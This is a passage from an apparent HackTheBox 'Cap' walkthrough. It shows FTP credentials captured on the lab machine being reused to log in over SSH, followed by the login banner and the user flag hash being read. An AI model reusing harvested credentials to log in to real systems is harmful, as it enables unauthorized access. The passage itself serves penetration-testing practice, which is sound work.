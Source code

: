 ![ftp.JPG](images/ftp.JPG)

We can get the FTP credentials ```nathan:Buck3tH4TF0RM3!```, Let's use those credentials on SSH:
```console
┌─[evyatar@parrot]─[/hackthebox/Cap]
└──╼ $ ssh nathan@10.10.10.245
The authenticity of host '10.10.10.245 (10.10.10.245)' can't be established.
ECDSA key fingerprint is SHA256:8TaASv/TRhdOSeq3woLxOcKrIOtDhrZJVrrE0WbzjSc.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.245' (ECDSA) to the list of known hosts.
nathan@10.10.10.245's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-73-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Jun  9 19:52:20 UTC 2021

  System load:           0.0
  Usage of /:            35.6% of 8.73GB
  Memory usage:          35%
  Swap usage:            0%
  Processes:             226
  Users logged in:       0
  IPv4 address for eth0: 10.10.10.245
  IPv6 address for eth0: dead:beef::250:56ff:feb9:c1c0

  => There are 4 zombie processes.





The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Wed Jun  9 13:45:49 2021 from 10.10.14.8
nathan@cap:~$ cat user.txt 
bd61cd6e496fb1d5473af93e64e8e22e
```